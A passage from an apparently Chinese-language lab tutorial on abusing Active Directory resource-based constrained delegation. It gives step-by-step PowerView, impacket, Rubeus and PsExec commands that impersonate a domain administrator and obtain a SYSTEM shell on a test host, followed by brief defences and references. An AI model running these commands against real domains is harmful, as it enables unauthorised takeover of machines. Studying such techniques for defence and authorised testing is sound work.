b、配置evilsystem到wi7-test的基于资源约束委派

```plain
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-180313546-3823935851-3686928739-1604)"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)
Get-DomainComputer win7-test| Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120223643-55005bb0-b7a1-1.png)  
c、验证是否成功添加

```plain
Get-DomainComputer win7-test -Properties msds-allowedtoactonbehalfofotheridentity
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120223658-5ddcfc7a-b7a1-1.png)  
d、如果想要清除msds-allowedtoactonbehalfofotheridentity属性的值，可用如下命令

```plain
Set-DomainObject win7-test -Clear 'msds-allowedtoactonbehalfofotheridentity' -Verbose
```

配置完msDS-AllowedToActOnBehalfOfOtherIdentity属性之后就可以通过基于资源的约束委派去攻击目标主机了

#### impacket提权

Step 1：查看当前权限  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120223800-82876f6a-b7a1-1.png)  
以管理员运行cmd需要认证：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120223814-8b3bc476-b7a1-1.png)  
Step 2：使用impacket进行攻击

```plain
./getST.py -dc-ip dc.hacke.testlab hacke.testlab/evilsystem$:evil -spn cifs/win7-test.hacke.testlab -impersonate administrator 
export KRB5CCNAME=administrator.ccache
./smbexec.py -no-pass -k win7-test.hacke.testlab
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120223835-97ba5adc-b7a1-1.png)

#### Rubeus提权

Step 1：在Windows server 2008 R2中得普通域用户Al2ex无法访问win7-test

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120223849-a00c3106-b7a1-1.png)  
Step 2：清空票据  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120223859-a5ad5450-b7a1-1.png)  
Step 3：之后在Windows server 2008 R2中使用rebues请求白银票据

```plain
Rubeus.exe hash /user:evilsystem /password:evil /domain:hacke.testlab
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120223918-b13179be-b7a1-1.png)  
Step 3：使用rebues请求的白银票据

```plain
Rubeus.exe s4u /user:evilsystem$ /rc4:B1739F7FC8377E25C77CFA2DFBDC3EC7 /impersonateuser:administrator /msdsspn:cifs/win7-test /ptt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120223944-c0951c30-b7a1-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120223950-c4835280-b7a1-1.png)  
setp 5：之后成功访问win7-test主机

```plain
dir \\win7-test\c$
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120224006-cdaef620-b7a1-1.png)  
Step 6：接下来我们想要建立交互模式，不过在此之前我们要导入HOST票据，否则无法返回一个正常的shell  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120224017-d44fe318-b7a1-1.png)  
Step 7：导入HOST票据

```plain
Rubeus.exe s4u /user:evilsystem$ /rc4:B1739F7FC8377E25C77CFA2DFBDC3EC7 /impersonateuser:administrator /msdsspn:host/win7-test /ptt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120224036-dfd90ae8-b7a1-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240120224044-e49dad7c-b7a1-1.png)  
Step 8：尝试建立shell

```plain
PsExec64.exe \\win7-test cmd
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120224104-f022928e-b7a1-1.png)

```plain
PsExec64.exe \\win7-test -s cmd
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240120224117-f7f8269a-b7a1-1.png)  
从上面可以看到建立的shell同样是高权限的~

## 攻击防御

1、主机账号需设置委派时，只能设置为约束性委派  
2、Windows 2012 R2及更高的系统建立了受保护的用户组，组内用户不允许被委派，这是比较有效的手段，当这个组内的用户登录时(windows 2012 R2域服务器，客户端必须为Windows 8.1或之上)，不能使用NTLM认证

## 参考链接

[https://github.com/leechristensen/SpoolSample](https://github.com/leechristensen/SpoolSample)  
[https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)  
[https://www.slideshare.net/harmj0y/derbycon-the-unintended-risks-of-trusting-active-directory](https://www.slideshare.net/harmj0y/derbycon-the-unintended-risks-of-trusting-active-directory)  
[https://docs.microsoft.com/en-us/openspecs/windows\_protocols/ms-sfu/3bff5864-8135-400e-bdd9-33b552051d94](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/3bff5864-8135-400e-bdd9-33b552051d94)  
[https://learn.microsoft.com/zh-cn/windows-server/security/credentials-protection-and-management/protected-users-security-group](https://learn.microsoft.com/zh-cn/windows-server/security/credentials-protection-and-management/protected-users-security-group)
